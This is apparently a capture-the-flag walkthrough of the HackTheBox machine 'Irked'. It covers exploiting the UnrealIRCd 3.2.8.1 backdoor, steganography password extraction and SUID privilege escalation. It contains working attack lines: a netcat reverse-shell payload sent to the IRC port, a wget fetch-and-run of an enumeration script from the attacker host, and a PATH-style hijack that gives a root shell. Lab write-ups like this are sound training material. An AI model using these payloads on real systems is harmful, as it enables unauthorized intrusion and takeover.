


## Overview

Irked is a Debian 8.10 box running a webserver and the UnrealIRCd internet relay chat server.  UnrealIRCd 3.2.8.1 contains a backdoor that allows the execution of any command with the privileges of the user running ircd. I was able to use the backdoor to create a reverse shell to get intial foothold. After some enumeration a file was found in the home folder of djmardov that provided the password for a steg file. The referenced steg file ended up being the image on the main website. Steghide was used to extract the password which allowed for login via ssh with user djmardov. LinEnum was used to do additional enumeration and showed an unusual application with SUID set. The application was exploited to get a root shell.

## Enumeration

**Software**
 
 * Debian GNU/Linux 8.10 (jessie)
 * UnrealIRCd 3.2.8.1

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.117 -oN /mnt/data/boxes/irked/_full_tcp_nmap.txt
```

* 22/tcp - ssh
* 80/tcp -  http
* 111/tcp - rpcbind
* 6697/tcp - UnrealIRCd
* 8067/tcp - UnrealIRCd
* 38875/tcp - status (RPC #100024)
* 65534/tcp - irc

## Steps (user)

Browsing to http://10.10.10.117 shows an image with text "IRC is almost working!"


Running a search for "UnrealIRCd" in searchsploit returned a few results for version 3.2.8.1.


I was able to confirm that the version on the target box was the affected version by connecting to port 6697 via netcat.

```
nc 10.10.10.117 6697
NICK test123
USER test123 test123 10.10.10.117 :realname
```



I reviewed the code for "Backdoor Command Execution (Metasploit)" and the exploit was pretty straight forward. The format is _AB; + command + \n_. I set up a netcat lisener (nc -lvnp 4200) and sent a command to create a reverse shell.

```
AB;nc -e /bin/sh 10.10.14.5 4200 \n
```


Enumerating the filesystem I came across a file in /home/djmardov/Documents/ called ".backup". Viewing the contents of this file shows the steg backup password 'UPupDOWNdownLRlrBAbaSSss'

> Note: I was not able to view the user.txt file with the user 'irked'.



"Steg" or steganography allows for concealing a file, message, image, or video within another file, message, image, or video. I decided first to see if there was anything hidden in the image on the main site.

```
wget http://10.10.10.117/irked.jpg
```

I used a tool called steghide to determine if there was anything hidden in the file and there was.

```
steghide info irked.jpg
```


I then ran a command to extract pass.txt, the contents of which showed what looked like a password (Kab6h+m+bbp2J:HG).

```
steghide extract -sf irked.jpg
```


I tried to log in via ssh with user djmardov with the password and was successful.


## Steps (root/system)

I used a tool called [LinEnum](https://github.com/rebootuser/LinEnum) to do some additional enumeration on the machine.

I copied the script to my local working directory and started a python http server.

```
cp ~/tools/LinEnum/LinEnum.sh le.sh
python3 -m http.server
```

On the target I used wget to download the file and then ran it.

```
wget http://10.10.14.5/le.sh
chmod +x ./le.sh && ./le.sh 
```

Reviewing the results I noticed an unusual file (/usr/bin/viewuser) with the SUID (SetUID) permission set.


> SUID is a special type of file permissions set on a file. Normally when a program runs it inherits access permissions from the logged in user. SUID is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it.

Running the viewuser command indicates that this is an application that is being developed to set and test user permissions and is still under active development. There is also an error "/tmp/listusers": not found.


I was able to create the /tmp/listusers file the app was looking for, and use it to spawn a shell. Because the viewusers command is running as root, I was able to get a shell as root.

```
echo '/bin/bash' > /tmp/listusers
chmod +x /tmp/listusers
/usr/bin/viewuser
```


